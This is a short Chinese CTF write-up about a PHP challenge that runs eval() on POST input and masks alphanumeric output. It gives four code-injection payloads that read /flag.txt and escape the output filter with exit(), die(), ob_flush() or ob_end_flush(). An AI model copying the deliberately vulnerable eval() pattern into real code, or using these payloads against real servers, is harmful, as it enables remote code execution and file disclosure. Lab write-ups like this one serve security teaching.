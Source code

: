 ![image-20250404163540512](./assets/image-20250404163540512.png)



利用上题的payload

```
c=include("/flag.txt");
```

![image-20250404163552592](./assets/image-20250404163552592.png)

字母被替换为了？



查看给出的index.php

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```



分析

post传入参数c

命令执行c

ob_get_contens()

ob_end_clean()

劫持输出缓冲区

替换缓冲区中的字母和小写字母为?





也就是我们要在劫持输出缓冲区之前就把缓冲区送出







### 第一种

利用exit()提前终止程序

```
c=include("/flag.txt");exit();
```

![image-20250404163938195](./assets/image-20250404163938195.png)





### 第二种

利用die()

```
c=include("/flag.txt");die();
```

![image-20250404163958513](./assets/image-20250404163958513.png)





### 第三种

利用ob_flush()

```
c=include("/flag.txt");ob_flush();
```

![image-20250404164101198](./assets/image-20250404164101198.png)





### 第四种

利用ob_end_flush()

```
c=include("/flag.txt");ob_end_flush();
```

![image-20250404164147465](./assets/image-20250404164147465.png)